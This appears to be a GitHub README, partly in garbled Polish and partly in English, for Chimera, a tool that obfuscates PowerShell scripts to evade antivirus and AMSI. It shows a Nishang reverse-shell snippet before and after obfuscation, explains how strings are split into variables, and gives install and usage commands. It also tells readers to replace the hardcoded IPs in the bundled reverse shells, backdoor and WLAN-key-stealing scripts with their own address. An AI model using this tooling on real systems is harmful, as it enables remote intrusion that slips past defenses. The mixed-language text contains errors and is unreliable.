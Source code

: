 Chimera to skrypt obfuskujący w PowerShellu zaprojektowany by ominąć rozwiązania antywirusowe i AMSI. Ukrywa różnezłośliwe PS1 znane do pobudzania systemów ochrony antywirusowej wykorzystując zamiany strunków i zmiennych by ominąć typowe sygnatury detekcji.

![](images/chimera.gif)

Chimera zosstała stworzona do [this write-up](https://null-byte.com/bypass-amsi-0333967/) i jest [further evidence](https://github.com/tokyoneon/Chimera#resources) jak bardzo trywialne jest ominięcie sygnaturs. To repo to tłumaczenie oryginalnej Chimery

## Jak działa Chimeras...

Below is a snippet of Nishang's [Invoke-PowerShellTcp.ps1](shells/Invoke-PowerShellTcp.ps1), found at [nishang/Shells](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). VirusTotal reports [25 detections](https://www.virustotal.com/gui/file/0f1e223eaf8b6d71f65960f8b9e14c98ba62e585334a6349bcd02216f4415868/detection) of the PS1 script.

```powershell
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}

#Send back current username and computername
$sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
$stream.Write($sendbytes,0,$sendbytes.Length)

#Show an interactive PowerShell prompt
$sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
$stream.Write($sendbytes,0,$sendbytes.Length)
```

![](images/chimera-01.png)

And here it is again, after Chimera. VirusTotal reports [0 detections](https://www.virustotal.com/gui/file/74a47198fefa10a8ebb88a8b130259e56a5a9fc4302089ac73009742ba5c98dc/detection) of the obfuscated version.

```powershell
  # Watched anxiously by the Rebel command, the fleet of small, single-pilot fighters speeds toward the massive, impregnable Death Star.
              $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov = $jYODNAbvrcYMGaAnZHZwE."$bnyEOfzNcZkkuogkqgKbfmmkvB$ZSshncYvoHKvlKTEanAhJkpKSIxQKkTZJBEahFz$KKApRDtjBkYfJhiVUDOlRxLHmOTOraapTALS"()
       # As the station slowly moves into position to obliterate the Rebels, the pilots maneuver down a narrow trench along the station’s equator, where the thermal port lies hidden.
          [bYte[]]$mOmMDiAfdJwklSzJCUFzcUmjONtNWN = 0..65535|%{0}
   # Darth Vader leads the counterattack himself and destroys many of the Rebels, including Luke’s boyhood friend Biggs, in ship-to-ship combat.

  # Finally, it is up to Luke himself to make a run at the target, and he is saved from Vader at the last minute by Han Solo, who returns in the nick of time and sends Vader spinning away from the station.
           # Heeding Ben’s disembodied voice, Luke switches off his computer and uses the Force to guide his aim.
   # Against all odds, Luke succeeds and destroys the Death Star, dealing a major defeat to the Empire and setting himself on the path to becoming a Jedi Knight.
           $PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK = ([teXt.enCoDInG]::AsCII)."$mbKdotKJjMWJhAignlHUS$GhPYzrThsgZeBPkkxVKpfNvFPXaYNqOLBm"("WInDows Powershell rUnnInG As User " + $TgDXkBADxbzEsKLWOwPoF:UsernAMe + " on " + $TgDXkBADxbzEsKLWOwPoF:CoMPUternAMe + "`nCoPYrIGht (C) 2015 MICrosoft CorPorAtIon. All rIGhts reserveD.`n`n")
# Far off in a distant galaxy, the starship belonging to Princess Leia, a young member of the Imperial Senate, is intercepted in the course of a secret mission by a massive Imperial Star Destroyer.
            $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov.WrIte($PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK,0,$PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK.LenGth)
   # An imperial boarding party blasts its way onto the captured vessel, and after a fierce firefight the crew of Leia’s ship is subdued.
```

![](images/chimera-02.png)

Chimera does several things to obfuscate the source. The `transformer` function will separate strings into multiple pieces and reconstruct them as new variables.

For example, it will take a string like `... New-Object System.Net.Sockets.TCPClient ...` and convert it to:

```powershell
$a = "Syste"
$b = "m.Net.Soc"
$c = "kets.TCP"
$d = "Client"

... New-Object $a$b$c$d ...
```

The function separates commonly flagged data types and strings into several chunks. It defines the chunks and concatenates them at the top of the script. A higher `--level` will result in smaller chunks and more variables.
```powershell
$CNiJfmZzzQrqZzqKqueOBcUVzmkVbllcEqjrbcaYzTMMd = "`m"
$quiyjqGdhQZgYFRdKpDGGyWNlAjvPCxQTTbmFkvTmyB = "t`Rea"
$JKflrRllAqgRlHQIUzOoyOUEqVuVrqqCKdua = "Get`s"
$GdavWoszHwDVJmpYwqEweQsIAz = "ti`ON"
$xcDWTDlvcJfvDZCasdTnWGvMXkRBKOCGEANJpUXDyjPob = "`L`O`Ca"
$zvlOGdEJVsPNBDwfKFWpvFYvlgJXDvIUgTnQ = "`Get`-"
$kvfTogUXUxMfCoxBikPwWgwHrvNOwjoBxxto = "`i"
$tJdNeNXdANBemQKeUjylmlObtYp = "`AsC`i"
$mhtAtRrydLlYBttEnvxuWkAQPTjvtFPwO = "`G"
$PXIuUKzhMNDUYGZKqftvpAiQ = "t`R`iN
```

## Usage

Clone the repository. Tested in Kali v2020.3.
```
sudo apt-get update && sudo apt-get install -Vy sed xxd libc-bin curl jq perl gawk grep coreutils git
sudo git clone https://github.com/tokyoneon/chimera /opt/chimera
sudo chown $USER:$USER -R /opt/chimera/; cd /opt/chimera/
sudo chmod +x chimera.sh; ./chimera.sh --help
```

Basic usage.
```
./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /tmp/chimera.ps1 -v -t powershell,windows,\
copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,\
invoke-expression,out-string,write-error -j -g -k -r -p
```

Review the [usage guide](USAGE.md) and [write-up](https://null-byte.com/bypass-amsi-0333967/) for more examples and screenshots.

## Shells

In the `shells/` directory are several Nishang scripts and a few generic ones. All have been tested and should work fine. But there's no telling how untested scripts will reproduce with Chimera...

Change the hardcoded IP addresses.
```
sed -i 's/192.168.56.101/<YOUR-IP-ADDRESS>/g' shells/*.ps1
```

```
ls -laR shells/

shells/:
total 60
-rwxrwx--- 1 tokyoneon tokyoneon 1727 Aug 29 22:02 generic1.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 1433 Aug 29 22:02 generic2.ps1
-rwxrwx--- 1 tokyoneon tokyoneon  734 Aug 29 22:02 generic3.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 4170 Aug 29 22:02 Invoke-PowerShellIcmp.ps1
-rwxrwx--- 1 tokyoneon tokyoneon  281 Aug 29 22:02 Invoke-PowerShellTcpOneLine.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 4404 Aug 29 22:02 Invoke-PowerShellTcp.ps1
-rwxrwx--- 1 tokyoneon tokyoneon  594 Aug 29 22:02 Invoke-PowerShellUdpOneLine.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 5754 Aug 29 22:02 Invoke-PowerShellUdp.ps1
drwxrwx--- 1 tokyoneon tokyoneon 4096 Aug 28 23:27 misc
-rwxrwx--- 1 tokyoneon tokyoneon  616 Aug 29 22:02 powershell_reverse_shell.ps1

shells/misc:
total 36
-rwxrwx--- 1 tokyoneon tokyoneon 1757 Aug 12 19:53 Add-RegBackdoor.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 3648 Aug 12 19:53 Get-Information.ps1
-rwxrwx--- 1 tokyoneon tokyoneon  672 Aug 12 19:53 Get-WLAN-Keys.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 4430 Aug 28 23:31 Invoke-PortScan.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 6762 Aug 29 00:27 Invoke-PoshRatHttp.ps1
```

## Resources

- * [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- * [AMSITrigger](https://github.com/RythmStick/AMSITrigger)
- * [PSAmsi](https://github.com/cobbr/PSAmsi)
- * [amsi.fail](https://amsi.fail/)
- * [Unicorn](https://github.com/trustedsec/unicorn)
- * [www.wolfandco.com](https://www.wolfandco.com/insight/behind-enemy-lines-pen-tester%E2%80%99s-take-evading-amsi)

